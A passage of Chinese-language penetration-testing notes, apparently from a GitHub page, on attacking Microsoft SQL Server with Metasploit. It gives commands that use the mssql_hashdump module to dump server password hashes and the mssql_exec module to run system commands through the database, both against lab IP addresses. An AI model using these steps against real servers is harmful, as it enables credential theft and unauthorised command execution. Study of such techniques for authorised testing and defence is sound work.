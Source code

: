 ### 数据库

对应不同数据库写不同shell
#### Mssql

**查找/捕获服务器的口令**

这里，用到的是Metasploit的mssql_hashdump模块。
```shell
# 已知目标 mssql密码，获取服务器的密码
use auxiliary/scanner/mssql/mssql_hashdump
show options
set RHOSTS 192.168.91.131
set PASSWORD 123456
run
```
![](img/4.png)


**重新载入xp_cmd功能**
```
use auxiliary/admin/mssql/mssql_exec
show options
set CMD 'whoami'
set RHOST 192.168.109.139
set PASSWORD 123456
run
```
![](img/5.png)